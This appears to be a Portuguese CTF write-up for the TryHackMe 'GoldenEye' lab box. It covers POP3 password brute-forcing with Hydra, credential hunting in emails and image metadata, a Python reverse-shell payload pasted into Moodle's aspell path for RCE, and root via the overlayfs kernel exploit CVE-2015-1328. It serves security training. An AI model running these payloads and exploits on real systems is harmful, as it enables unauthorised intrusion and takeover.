# TryHackMe — GoldenEye

> **Categoria:** Boot2Root / Guided CTF
> **Dificuldade:** Médio
> **Sala:** [tryhackme.com/room/goldeneye](https://tryhackme.com/room/goldeneye)
> **Autor da sala:** ben — VM original de [creosote (VulnHub)](https://www.vulnhub.com/author/creosote,584/)
> **Ferramentas:** Nmap, Hydra, Netcat, ExifTool, Moodle (web), Python, GCC/CC

## Descrição da Sala

> Bond, James Bond. A guided CTF. This room will be a guided challenge to hack the James Bond styled box and get root.

Uma máquina temática de GoldenEye/007, onde o objetivo é escalar privilégios de forma guiada: enumeração web, quebra de credenciais de e-mail via POP3, pivotamento por um portal Moodle interno (`severnaya-station.com`), obtenção de uma reverse shell através de uma falha de RCE no plugin de spell-check do Moodle, e escalonamento de privilégios via exploit de kernel (overlayfs).

---

## Task 1 — Intro & Enumeration

### Varredura de portas com Nmap

```bash
sudo nmap -Pn -sS -sV -sC -p25,80,55006,55007 10.67.176.226
```

**Resultado:**

```
PORT      STATE SERVICE     VERSION
25/tcp    open  smtp        Postfix smtpd
80/tcp    open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-title: GoldenEye Primary Admin Server
55006/tcp open  ssl/pop3    Dovecot pop3d
55007/tcp open  pop3        Dovecot pop3d
```


*Figura 1 — Nmap identifica 4 portas abertas, com destaque para dois serviços POP3 (Dovecot) em portas altas não convencionais (55006/55007)*

### Explorando a página inicial

Acessando `http://10.67.176.226/sev-home/`, a página apresenta o tema "GOLDENEYE" e um texto institucional que confirma a pista dada pelo Nmap:

> *"Remember, since security by obscurity is very effective, we have configured our pop3 service to run on a very high non-default port."*


*Figura 2 — A página inicial confirma que o serviço POP3 roda propositalmente em uma porta alta (55007)*

### Analisando o código-fonte (`terminal.js`)

Inspecionando o código-fonte da página e o script `terminal.js`, um comentário no JavaScript revela um aviso para o usuário **Boris** atualizar sua senha padrão, seguida de uma sequência de **entidades numéricas HTML** (`&#73;&#110;&#118;...`) comentada como a senha "codificada":

```
//Boris, make sure you update your default password.
//My sources say MI6 maybe planning to infiltrate.
//Be on the lookout for any suspicious network traffic....
//I encoded you p@ssword below...
//&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;;
//BTW Natalya says she can break your codes
```

Decodificando as entidades HTML numéricas (cada `&#NNN;` corresponde a um caractere ASCII), obtém-se a string **`InvincibleHack3r`**.


*Figura 3 — Senha de Boris ("InvincibleHack3r") codificada em entidades numéricas HTML no comentário do `terminal.js`*

> **Observação:** essa senha "codificada" revelou-se um *red herring* (senha antiga/isca) — a senha real de Boris, obtida posteriormente por ataque de dicionário (ver Task 2), é diferente. Isso reforça o aviso do próprio comentário: *"make sure you update your default password"*.

---

## Task 2 — It's Mail Time...

Com o nome de usuário **boris** em mãos e um possível indício de senha, o próximo passo foi testar o acesso aos serviços descobertos — mas como a senha do código-fonte não funcionou diretamente, foi usado **Hydra** para forçar a autenticação POP3 (porta 55007) com uma wordlist comum.

### Quebrando a senha de Boris

```bash
hydra -l boris -P /usr/share/wordlists/fasttrack.txt 10.67.176.226 -s 55007 pop3
```

**Resultado:** `boris : secret1!`

Com a credencial válida, uma conexão manual via Netcat ao serviço POP3 permite listar e ler as mensagens da caixa de Boris:

```bash
nc -nv 10.67.176.226 55007
USER boris
PASS secret1!
STAT
RETR 3
```

Entre as mensagens recuperadas:

- **De `alec@janus.boss`** (syndicate Janus): instruções para ocultar os códigos de acesso finais do GoldenEye em um arquivo oculto no diretório raiz do servidor, e um aviso de que **Xenia** obterá acesso ao site de treinamento e aos códigos do terminal GoldenEye.
- **De `natalya@ubuntu`**: *"Boris, I can break your codes!"* — primeira pista de que Natalya consegue quebrar as senhas de Boris.
- **De `root@127.0.0.1.goldeneye`**: mensagem administrativa informando que essa caixa de e-mail **não é escaneada** por risco de segurança (diferente da maioria dos apps web do servidor) — um detalhe que se torna relevante mais adiante.


*Figura 4 — Hydra encontra `boris:secret1!`; leitura manual via Netcat revela e-mails sobre o syndicate Janus e a usuária Natalya*

### Encontrando e quebrando a senha de Dr. Doak

A mensagem de Boris menciona que **Natalya** consegue "quebrar os códigos de Boris" — sugerindo a existência de outros usuários do sistema. Repetindo o ataque de dicionário para o usuário `doak`:

```bash
hydra -l doak -P /usr/share/wordlists/fasttrack.txt 10.67.176.226 -s 55007 pop3
```

**Resultado:** `doak : goat`

Lendo a única mensagem na caixa de Doak via Netcat, é revelada uma credencial para o portal de treinamento Moodle:

```
username: dr_doak
password: 4England!
```


*Figura 5 — `doak:goat` quebrado via Hydra; e-mail revela as credenciais `dr_doak / 4England!` para o site de treinamento*

### Encontrando e quebrando a senha de Natalya

Repetindo o processo para o usuário `natalya`:

```bash
hydra -l natalya -P /usr/share/wordlists/fasttrack.txt 10.67.176.226 -s 55007 pop3
```

**Resultado:** `natalya : bird`

A caixa de Natalya contém 2 mensagens importantes:

1. Um aviso de `root@ubuntu` para que ela pare de quebrar os códigos de Boris, confirmando que ela é a **supervisora GNO (GoldenEye Network Operator) de treinamento**, além de um alerta sobre o syndicate **Janus** estar atrás do GoldenEye.
2. Uma segunda mensagem revelando o **domínio interno do portal Moodle** (`severnaya-station.com/gnocertdir`) e as credenciais de uma nova contratada:

```
username: xenia
password: RCP90rulez!
```

A mensagem também instrui a adicionar uma entrada no arquivo `/etc/hosts` apontando `severnaya-station.com` para o IP do servidor, já que o acesso é feito remotamente.


*Figura 6 — `natalya:bird` quebrado via Hydra; e-mails revelam o domínio `severnaya-station.com/gnocertdir` e as credenciais `xenia / RCP90rulez!`*

---

## Task 3 — GoldenEye Operators Training

### Acessando o portal Moodle interno

Após adicionar a entrada no `/etc/hosts`:

```
10.67.176.226   severnaya-station.com
```

Foi possível acessar `http://severnaya-station.com/gnocertdir`, o portal **"GoldenEye Operators Training - Moodle"**.

### Login como Dr. Doak e descoberta do arquivo privado

Usando as credenciais `dr_doak / 4England!`, foi feito login no Moodle. Navegando até **"My private files"**, um arquivo chamado `s3cret.txt` estava disponível dentro de uma pasta `for james`:

```
007,

I was able to capture this apps adm1n cr3ds through clear txt.

Text throughout most web apps within the GoldenEye servers are scanned, so I
cannot add the cr3dentials here.

Something juicy is located here: /dir007key/for-007.jpg

Also as you may know, the RCP-90 is vastly superior to any other weapon and
License to Kill is the only way to play.
```


*Figura 9 — `s3cret.txt` revela que a senha de administrador foi ocultada (não em texto, para evitar scanners) em `/dir007key/for-007.jpg`*

### Login como Xenia e mensagens internas

Também foi possível logar com as credenciais de **Xenia** (`xenia / RCP90rulez!`), encontradas no e-mail de Natalya, confirmando acesso ao curso "GNO" e "Miscellaneous". O navegador ainda oferece salvar a senha, evidenciando a credencial usada no login.


*Figura 8 — Login como Xenia X no Moodle (`xenia / RCP90rulez!`), com o curso GNO disponível*

Verificando as mensagens internas do Moodle como Xenia, uma mensagem de **Dr. Doak** confirma seu nome de usuário de e-mail (`doak`), reforçando a cadeia de informações já obtida via POP3.


*Figura 7 — Mensagem interna do Moodle confirma o username de e-mail de Dr. Doak (`doak`)*

### Extraindo a senha de administrador via metadados EXIF

Seguindo a pista do `s3cret.txt`, a imagem foi acessada em `severnaya-station.com/dir007key/for-007.jpg` e analisada com **ExifTool**:

```bash
exiftool for-007.jpg
```

O campo **Image Description** continha uma string em Base64:

```
Image Description : eFdpbnRlcjE5OTV4IQ==
```

Decodificando:

```bash
echo 'eFdpbnRlcjE5OTV4IQ==' | base64 -d
```

**Resultado:** `xWinter1995x!` — a senha de administrador do Moodle, oculta propositalmente nos metadados da imagem (e não em texto plano) para escapar dos scanners mencionados no `s3cret.txt`.


*Figura 10 — ExifTool revela `Image Description: eFdpbnRlcjE5OTV4IQ==`, que decodificado em Base64 resulta em `xWinter1995x!`*

### Obtendo RCE via o plugin Aspell do Moodle

Com as credenciais de administrador (`admin / xWinter1995x!`), foi feito login no Moodle como **Admin User**. Navegando até **Site Administration → Plugins → Text editors → TinyMCE HTML editor** (acessível também pela busca por "spell" em Site administration), o campo **"Path to aspell"** permite configurar o caminho do executável usado para correção ortográfica.

O Moodle 2.2.3 é vulnerável a uma técnica conhecida de RCE: o valor desse campo é executado como comando de shell quando o spell-checker é invocado. Assim, no lugar de um caminho de binário, foi inserido um payload Python de reverse shell:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP_ATACANTE>",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'
```


*Figura 11 — Campo "Path to aspell" nas configurações do TinyMCE preenchido com o payload Python de reverse shell*

### Disparando o shell

Com um listener Netcat ativo na máquina atacante:

```bash
nc -lnvp 4444
```

O spell-checker foi acionado criando uma nova entrada de blog (**Blogs → Add a new entry**), preenchendo o corpo do texto — a verificação ortográfica do TinyMCE invoca o "aspell" configurado, executando o payload no servidor.

**Resultado:**

```
listening on [any] 4444 ...
connect to [192.168.129.38] from (UNKNOWN) [10.67.176.226] 38195
/bin/sh: 0: can't access tty; job control turned off
$
```


*Figura 12 — Reverse shell recebida como `www-data` após o spell-checker do Moodle executar o payload*

---

## Task 4 — Privilege Escalation

### Identificando a vulnerabilidade de kernel

Com acesso inicial como `www-data`, a enumeração do sistema (kernel Linux 3.13, Ubuntu) apontou para a vulnerabilidade **CVE-2015-1328** — uma falha de tratamento incorreto de permissões no **overlayfs** combinada com `FS_USERNS_MOUNT`, que permite escalonamento local de privilégios em kernels Linux 3.13.0 anteriores a 3.19 (Ubuntu 12.04/14.04/14.10/15.04).

O exploit público (EDB-ID **37292**, autor *rebel*) foi localizado no Exploit-DB:


*Figura 13 — Exploit-DB: "Linux Kernel 3.13.0 < 3.19 (Ubuntu) - 'overlayfs' Local Privilege Escalation" (CVE-2015-1328)*

### Compilando e executando o exploit

O código-fonte (`37292.c` / `ofs.c`) foi transferido para a máquina-alvo e compilado localmente. Como o binário `gcc` não estava disponível, foi necessário substituí-lo pelo alias `cc`:

```bash
sed -i 's/gcc/cc/g' 37292.c
cc 37292.c -o ofs
./ofs
```

A execução gera threads, realiza dois mounts do overlayfs, cria uma biblioteca compartilhada maliciosa via `/etc/ld.so.preload` e, ao final, retorna um shell com privilégios de **root**:

```
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

### Capturando a flag

```bash
# cd /root
# ls -lha
# cat .flag.txt
```

**Resultado:**

```
Alec told me to place the codes here:

568628e0d993b1973adc718237da6e93

If you captured this make sure to go here.....
/006-final/xvf7-flag/
```

A flag `568628e0d993b1973adc718237da6e93` corresponde exatamente aos "códigos de acesso finais do GoldenEye" mencionados no e-mail inicial de Alec a Boris (Task 2) — fechando a história: os códigos foram escondidos em `/root/.flag.txt`, exatamente como Alec havia solicitado.


*Figura 14 — Exploit CVE-2015-1328 compilado e executado, obtendo `uid=0(root)` e a flag em `/root/.flag.txt`*

---

## 🔑 Resumo da Cadeia de Ataque

| Etapa | Ação | Resultado |
|---|---|---|
| 1 | Nmap (`-p25,80,55006,55007`) | SMTP, HTTP, 2x POP3 (Dovecot) em portas não padrão |
| 2 | Página inicial + `view-source` + `terminal.js` | Pista de senha de Boris codificada em entidades HTML (`InvincibleHack3r`, red herring) |
| 3 | Hydra + fasttrack.txt em POP3 (55007) — `boris` | `boris : secret1!` |
| 4 | Leitura de e-mails de Boris (Netcat/POP3) | Pistas sobre Janus, Natalya e os códigos do GoldenEye |
| 5 | Hydra — `doak` | `doak : goat` → e-mail revela `dr_doak / 4England!` (Moodle) |
